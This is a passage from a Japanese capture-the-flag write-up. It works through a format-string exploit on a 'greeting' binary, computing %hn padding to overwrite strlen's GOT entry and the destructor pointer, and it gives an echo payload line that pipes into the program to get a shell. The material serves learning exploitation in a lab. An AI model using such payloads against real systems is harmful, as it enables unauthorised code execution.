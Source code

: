 すればよい
初めの`\x56\x9a\x04\x08`と`\x54\x9a\x04\x08`がstrlenの書き換えるアドレス`08049a54`の２バイトずつを表し、その次の`\x34\x99\x04\x08`がデストラクタの書き換えるアドレスを指す。

そこから、
strlenは`08048490`に書き換えるので、
`Nice to meet you, `の18バイト、`aa`の2バイト、アドレス * 3の12バイトの合計32を考慮して
0804 -> 0x0804 - 32 = 2020
8490 -> 0x8490 - 0x0804 = 31884
そしてデストラクタのアドレスをメインのアドレス`080485ed`に書き換えるので、下位2バイトに注目して、
85ed -> 0x85ed - 0x8490 = 349

となる。

デストラクタが下位2バイトでよくてstrlenは4バイト全て書き換える必要があるところは謎。
どっちも書き換える前は上位2バイトは`0804`なのでは、、？

strlenを2バイトだけ書き換える以下のコマンドではうまくいかなかった。

```
echo -e 'aa\x54\x9a\x04\x08\x34\x99\x04\x08%33908%12$hn%349x%13$hn\nsh\nls' | ./greeting
```